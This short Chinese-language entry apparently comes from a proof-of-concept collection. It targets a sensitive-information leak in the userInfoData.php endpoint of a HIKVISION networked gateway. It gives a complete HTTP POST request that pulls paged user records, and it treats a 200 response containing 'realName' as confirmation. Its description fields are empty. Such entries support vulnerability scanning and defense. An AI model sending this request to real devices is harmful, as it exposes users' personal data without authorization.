 ﻿# HIKVISION 联网网关userInfoData.php 接口处敏感信息泄露漏洞

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /data/userInfoData.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Te: trailers
X-Requested-With: XMLHttpRequest
Connection: close

page=1&rows=20&sort=userId&order=asc
```

> 响应代码特征：200

> 响应内容特征：realName

> 上传文件定位：

> 验证文件来源：HIKVISION 联网网关userInfoData.php 接口处敏感信息泄露漏洞.poc

